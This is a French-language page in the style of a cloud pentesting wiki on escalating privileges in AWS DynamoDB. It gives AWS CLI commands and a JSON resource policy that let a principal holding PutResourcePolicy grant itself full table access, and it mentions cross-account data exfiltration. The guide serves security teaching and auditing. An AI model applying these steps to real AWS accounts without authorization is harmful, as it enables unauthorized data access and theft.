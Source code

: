 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Pour plus d'informations sur dynamodb, consultez :

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, et éventuellement `dynamodb:GetResourcePolicy`

Depuis mars 2024, AWS propose des *politiques basées sur les ressources* pour DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Ainsi, si vous avez le `dynamodb:PutResourcePolicy` pour une table, vous pouvez simplement vous accorder, ou accorder à tout autre principal, un accès complet à la table.

Accorder le `dynamodb:PutResourcePolicy` à un principal aléatoire se produit souvent par accident, si les administrateurs pensent que l'octroi de `dynamodb:Put*` ne permettrait au principal que d'ajouter des éléments à la base de données - ou s'ils ont accordé cet ensemble de permissions avant mars 2024...

Idéalement, vous avez également `dynamodb:GetResourcePolicy`, afin de ne pas écraser d'autres permissions potentiellement vitales, mais seulement d'injecter les permissions supplémentaires dont vous avez besoin :
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Si vous ne pouvez pas récupérer la politique actuelle, utilisez simplement celle-ci qui accorde un accès complet sur la table à votre principal :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Si vous devez le personnaliser, voici une liste de toutes les actions DynamoDB possibles : [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Et voici une liste de toutes les actions qui peuvent être autorisées via une politique basée sur les ressources *ET lesquelles de celles-ci peuvent être utilisées entre comptes (pensez à l'exfiltration de données !)* : [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Maintenant, avec le document de politique `policy.json` prêt, mettez la politique de ressource :
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Maintenant, vous devriez avoir les autorisations nécessaires.

### Post Exploitation

Autant que je sache, il n'y a **aucun autre moyen direct d'escalader les privilèges dans AWS juste en ayant quelques autorisations `dynamodb` AWS**. Vous pouvez **lire des informations sensibles** à partir des tables (qui pourraient contenir des identifiants AWS) et **écrire des informations dans les tables** (ce qui pourrait déclencher d'autres vulnérabilités, comme des injections de code lambda...) mais toutes ces options sont déjà considérées dans la **page Post Exploitation de DynamoDB** :

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### À FAIRE : Lire des données en abusant des flux de données

{{#include ../../../banners/hacktricks-training.md}}
